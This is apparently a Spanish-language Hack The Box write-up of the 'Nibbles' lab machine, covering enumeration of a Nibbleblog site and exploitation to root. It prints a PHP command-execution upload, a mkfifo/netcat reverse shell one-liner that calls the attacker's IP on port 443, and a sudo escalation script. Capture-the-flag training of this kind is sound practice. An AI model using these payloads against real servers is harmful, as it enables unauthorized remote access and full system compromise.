 ```yaml
---
description: '✍️ Autor: Hack The Box🔍 Dificultad: Fácil  📅 Fecha de creación: 13/01/2018'
---
```


# Nibbles

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.129.12.162
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.12.162 
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.129.12.162
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos salga un mensaje.\
![](<../../.gitbook/assets/image (3).png>)

Revisamos el código por si hay alguna información relevante.\


<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Nos muestra un directorio por lo que indagaremos ahí.

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://10.129.12.162/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Hay dos archivos interesantes como `admin.php` y `README`.

```bash
curl http://10.129.12.162/nibbleblog/README
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Hemos confirmado que la versión **4.0.3** está en uso, lo que sugiere que es probable que sea vulnerable al módulo de **Metasploit** (aunque podría tratarse de una página antigua del README). No observamos nada más relevante. Ahora, revisemos la página de inicio de sesión del portal de administración.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-07 095935.png" alt=""><figcaption></figcaption></figure>

Para usar el **exploit** mencionado, necesitaremos credenciales de administrador válidas. Probamos técnicas de omisión de autenticación y combinaciones comunes como **admin** y **admin**, sin éxito. Hay una opción para restablecer la contraseña, pero da un error de correo. Además, demasiados intentos rápidos activan un bloqueo con el mensaje **"Nibbleblog security error - Blacklist protection"**.

Volvamos a nuestros resultados de fuerza bruta en el directorio. Los códigos **200** muestran páginas accesibles, los **403** indican acceso prohibido y el **301** es una redirección permanente. Navegamos a **nibbleblog/themes/** y vemos que el listado de directorios está habilitado.

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Al navegar a **nibbleblog/content**, encontramos subdirectorios interesantes: public, private y tmp. Explorando un poco, encontramos un archivo **users.xml** que confirma que el nombre de usuario es **admin**. También muestra direcciones IP en la lista negra. Podemos solicitar este archivo con **cURL** y formatear la salida **XML** usando **xmllint**.

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Confirmamos que **admin** es el usuario.

No hay otros puertos abiertos y no encontramos más directorios. Podemos confirmarlo realizando fuerza bruta adicional en directorios contra la raíz de la aplicación web.

```bash
gobuster dir -u http://10.129.12.162/ --wordlist /usr/share/dirb/wordlists/common.txt
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Al revisar nuevamente todos los directorios expuestos, encontramos un archivo **config.xml**.

```bash
curl -s http://10.129.12.162/nibbleblog/content/private/config.xml | xmllint --format -
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Al revisar el archivo, esperamos encontrar contraseñas, pero no obtenemos resultados. Sin embargo, vemos dos menciones de "**nibbles**" en el título del sitio y en la dirección de correo de notificación. Este también es el nombre de la máquina.&#x20;

Al realizar cracking de contraseñas offline con una herramienta como **Hashcat** o al intentar adivinar una contraseña, es importante considerar toda la información disponible. No es raro descifrar una contraseña (como la de la red inalámbrica de una empresa) usando una lista de palabras generada al rastrear su sitio web con una herramienta como **CeWL**.

```bash
cewl http://10.129.12.162/nibbleblog -w wordlist.txt
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Intentemos usar el plugin **MyImage** para cargar un fragmento de código **PHP** en lugar de una imagen. El siguiente fragmento se puede usar para probar la ejecución de código.

```bash
<?php system('id'); ?>
```

Ahora tenemos que averiguar dónde se subió el archivo si la carga fue exitosa. Volviendo a los resultados de fuerza bruta en los directorios, recordamos el directorio `/content`. Dentro de este, hay un directorio `plugins` y otro subdirectorio llamado `my_image`. La ruta completa es `http://<host>/nibbleblog/content/private/plugins/my_image/`. En este directorio, vemos dos archivos, `db.xml` e `image.php`, con una fecha de última modificación reciente, ¡lo que significa que nuestra carga fue exitosa! Ahora vamos a verificar si tenemos ejecución de comandos.

```bash
curl http://10.129.12.162/nibbleblog/content/private/plugins/my_image/image.php
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Parece que hemos obtenido ejecución remota de código en el servidor web, y el servidor Apache se está ejecutando en el contexto del usuario `nibbler`. Vamos a modificar nuestro archivo PHP para obtener una shell inversa y comenzar a explorar el servidor.

Vamos a editar nuestro archivo PHP local y subirlo nuevamente. Este comando debería proporcionarnos una shell inversa. Como se mencionó anteriormente en el Módulo, existen muchas hojas de trucos para shells inversas. Algunas muy buenas son [PayloadAllTheThings ](https://github.com/swisskyrepo/PayloadsAllTheThings)entre otras.

Utilicemos el siguiente one-liner de Bash para la shell inversa y añádelo a nuestro script PHP.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```

```bash
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.47 443 >/tmp/f"); ?>
```

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Pinchamos en el fichero image.php.

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Tenemos Python3, lo cual nos permite obtener una shell más amigable escribiendo `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Al navegar a `/home/nibbler`, encontramos la bandera `user.txt` así como un archivo zip llamado `personal.zip`.

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Si accedemos a esa ruta, veremos que no existe. Por lo tanto, necesitaremos crear el directorio y el archivo:

```bash
cd /home/nibbler
mkdir -p personal/stuff
cd personal/stuff
echo "/bin/bash" > monitor.sh
chmod +x monitor.sh
sudo ./monitor.sh
```

Con estos pasos, obtendremos acceso root. Luego, al ir a `/root/root.txt`, podremos ver la bandera ROOT.

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

